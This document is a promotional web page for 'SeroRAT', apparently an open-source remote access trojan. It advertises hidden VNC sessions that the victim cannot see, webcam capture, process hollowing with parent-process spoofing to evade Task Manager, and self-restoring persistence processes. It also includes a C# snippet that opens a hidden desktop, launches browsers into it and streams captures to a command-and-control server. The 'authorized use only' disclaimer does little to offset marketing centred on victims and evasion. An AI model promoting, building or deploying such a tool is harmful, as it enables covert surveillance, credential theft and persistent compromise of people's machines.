





$ source available · authorized use only · free
HVNC, DXGI remote desktop at 60fps, remote webcam via DirectShow, process hollowing with PPID spoof, NativeAOT stub — 40+ features. Everything the expensive ones have. None of the price tag.

HVNC creates a completely isolated Windows desktop session — invisible to the target. Chrome, Firefox, Edge, Brave, Opera launch directly into the shadow session. The victim sees nothing. You see everything.
Each browser gets --start-maximized and fills the HVNC frame. Mouse and keyboard forwarded with pixel-perfect accuracy. Clipboard synced on demand.
No new file is dropped — the existing PE is mapped via NtCreateSection(SEC_IMAGE) into the target via NtMapViewOfSection — Windows resolves relocations and IAT automatically. The thread's RIP is redirected to the new entry point, then resumed.
PPID spoofing via UpdateProcThreadAttribute makes the injected process appear as a child of explorer.exe or winlogon.exe. Task Manager, Process Explorer — they see nothing suspicious.
What others charge for the same thing — often worse, and closed to inspect.
| Cobalt Strike | $5,000 / yr | commercial, closed source |
| Brute Ratel | $2,500 / yr | commercial, closed source |
| PureRAT | $2,000 lifetime | reversed & leaked anyway |
| SeroRAT | $0 — open source | Source available, full code on GitHub |
No mocked-up demos. Actual captures from the server.

Builder NativeAOT stub
Panel
Service manager
Window NotifyThe details that separate a demo from something you'd actually deploy.
Shared-key auth on every packet. 3s heartbeat with RTT measurement. Multi-host auto-reconnect with configurable round-robin delay.
UpdateProcThreadAttribute sets the injected process parent to explorer.exe or winlogon.exe depending on elevation level.
4 guardian processes in dllhost/SearchProtocolHost with PPID spoofing, staggered 800ms apart. File lock + FileSystemWatcher for instant restore.
// Create isolated shadow desktop — invisible to user
nint hvnc = CreateDesktop("SeroHVNC",
0, 0, 0, DESKTOP_ALL, 0);
// Launch browser directly into hidden session
var si = new STARTUPINFOW {
cb = (uint)Marshal.SizeOf<STARTUPINFOW>(),
lpDesktop = "SeroHVNC",
dwFlags = STARTF_USESHOWWINDOW,
wShowWindow = SW_SHOWMAXIMIZED
};
CreateProcessW(0, new StringBuilder(browserCmd),
0, 0, false, CREATE_UNICODE_ENVIRONMENT,
envBlock, 0, ref si, out var pi);
// Capture thread — stream JPEG frames to C2
SetThreadDesktop(hvnc);
while (_running)
SendFrameAsync(CaptureDesktop(hvnc));People who built this.
Fork it. Build on it. Make it yours.
Just use it on systems you have authorization for.
For authorized use only — red team engagements, security research, CTF. You are responsible for where you point it.